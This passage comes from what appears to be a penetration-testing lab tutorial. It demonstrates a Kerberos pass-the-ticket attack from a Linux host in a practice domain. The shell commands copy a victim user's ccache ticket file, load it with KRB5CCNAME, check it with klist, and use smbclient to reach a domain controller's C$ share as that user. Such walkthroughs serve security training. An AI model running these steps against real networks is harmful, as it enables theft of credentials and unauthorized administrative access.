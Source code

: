 To gain valuable intel on the victim, we can look at the groups that our target belongs to and maybe aim for the ones administrative rights of course. If one belongs to the local admins group, we will indeed get access to the DC host. Juicy enough!

```shell-session
root@linux01:~# id julio@inlanefreight.htb

<SNIP>647400512(domain admins@inlanefreight.htb)<SNIP>
```

### Importing the ccache File to the Current Session

Checking what ccache files are loaded:

```shell-session
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
```

**Note:** klist displays the ticket information. We must consider the values "valid starting" and "expires." If the expiration date has passed, the ticket will not work. `ccache files` are temporary. They may change or expire if the user no longer uses them or during login and logout operations.

Making a copy of the ccache file to use and importing it:

```shell-session
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```

Checking the importation:

```shell-session
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
```

We successfully imported to ccache file to the current session, now we can access to the victim's (Julio in the example above.) Now we can access the victim's shares:

```shell-session
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
```

***
